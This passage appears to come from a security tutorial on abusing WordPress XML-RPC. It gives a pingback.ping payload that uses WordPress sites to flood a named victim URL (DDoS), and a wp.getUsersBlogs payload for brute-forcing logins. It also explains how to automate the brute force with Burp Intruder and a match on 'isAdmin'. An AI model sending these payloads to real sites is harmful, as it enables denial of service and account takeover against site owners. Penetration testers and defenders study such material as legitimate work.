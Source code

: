 <?xml version="1.0"?>
<methodCall>
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value>
        <string>http://victim.com</string> <!-- Target of the DDoS -->
      </value>
    </param>
    <param>
      <value>
        <string>http://malicious-site.com/fake-post</string> <!-- Attackers' fake URL -->
      </value>
    </param>
  </params>
</methodCall>
Explanation:
http://victim.com: This is the victim’s website. The WordPress site will send a verification request to this URL.
http://malicious-site.com/fake-post: A fake URL controlled by the attacker claiming to have linked to the victim’s site.
How This Causes DDoS:
The attacker sends this XML-RPC request to multiple WordPress sites.
Each WordPress site sends a GET request to http://victim.com to validate the pingback.
This results in a flood of traffic to the victim’s server.
Brute force attacks
To perform a brute-force attack on a WordPress login using XML-RPC, attackers can use the following XML request:

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>username</value></param> 
<param><value>password</value></param> 
</params> 
</methodCall>

When you provide incorrect login credentials the response will typically indicate an error displaying messages like “Incorrect username or password.” This confirms that the authentication attempt failed.

If you send valid login credentials the response will indicate a successful login. It will typically include information such as isAdmin (confirming admin access) and other relevant values related to the authenticated user.


Testing login credentials one by one can be time-consuming. Instead you can send the request to Intruder in Burp Suite, select the position where you want to brute-force (usually the username or password field), and provide a wordlist for the attack.

To speed up the process further you can add a Grep Match for the term “isAdmin” in the response. This will help you quickly identify successful logins and valid results.
